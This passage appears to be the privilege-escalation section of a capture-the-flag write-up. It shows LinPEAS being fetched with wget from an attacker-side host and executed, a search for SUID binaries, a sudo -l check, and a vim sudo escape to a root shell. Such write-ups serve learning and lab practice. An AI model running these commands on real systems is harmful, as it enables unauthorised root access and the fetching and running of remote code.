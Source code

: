 ## 🧗 Phase 4: Privilege Escalation Journey

### 🔍 System Enumeration

```bash
# 🚀 Deploy LinPEAS
wget http://10.10.14.XXX:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh && ./linpeas.sh | tee /tmp/linpeas_output.txt
```

### 🎯 Critical Findings

<table>
<tr><td>

**🔥 SUID Binaries**
```bash
find / -perm -4000 2>/dev/null
```
- `/usr/bin/custom_app` 🚨
- `/usr/bin/find` 
- `/bin/systemctl`

</td><td>

**⚡ Sudo Permissions**
```bash
sudo -l
```
- `(root) NOPASSWD: /usr/bin/vim`
- `(root) /opt/backup.sh`

</td></tr>
</table>

### 💥 Exploitation: Sudo Vim Abuse

```bash
# 🎯 GTFOBins technique
sudo vim -c ':!/bin/bash'

# 👑 ROOT ACHIEVED!
whoami
# root
```

---

## 🏆 Phase 5: Victory Lap

### 🎌 Flag Collection

<details><summary>🚩 User Flag</summary></details>
